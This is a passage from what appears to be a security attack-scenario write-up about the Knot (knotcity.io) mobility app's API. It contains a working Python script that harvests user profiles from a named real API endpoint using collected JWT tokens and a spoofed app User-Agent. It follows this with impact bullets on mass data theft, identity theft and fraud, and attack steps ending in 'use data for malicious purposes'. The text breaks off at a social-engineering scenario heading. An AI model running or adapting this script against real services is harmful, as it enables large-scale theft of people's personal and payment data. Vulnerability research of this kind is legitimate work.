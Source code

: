 #### **Attack Vector**:
```python
# Automated script to harvest user data
import requests

def harvest_user_data(token):
    headers = {
        "Authorization": token,
        "User-Agent": "Knot-mayndrive v1.1.34 (android)",
        "Accept": "application/json"
    }
    
    response = requests.get(
        "https://api.knotcity.io/api/application/users",
        headers=headers
    )
    
    if response.status_code == 200:
        return response.json()
    return None

# Harvest data from multiple tokens
tokens = ["token1", "token2", "token3", ...]
user_data = []

for token in tokens:
    data = harvest_user_data(token)
    if data:
        user_data.append(data)
```

#### **Expected Result**:
- **Success Rate**: High (if tokens are valid)
- **Data Volume**: Complete user profiles for each token
- **Impact**: Large-scale data breach

#### **Impact**:
- **Mass Data Theft**: Hundreds/thousands of user profiles
- **Identity Theft**: Personal information for fraud
- **Financial Fraud**: Bank card and payment information
- **Privacy Violation**: Complete user behavior analysis

#### **Attack Steps**:
1. **Token Collection**: Gather valid JWT tokens
2. **Automated Harvesting**: Script to collect user data
3. **Data Processing**: Organize and analyze collected data
4. **Exploitation**: Use data for malicious purposes

---

### 🎯 **ATTACK SCENARIO 5: Social Engineering Attack**
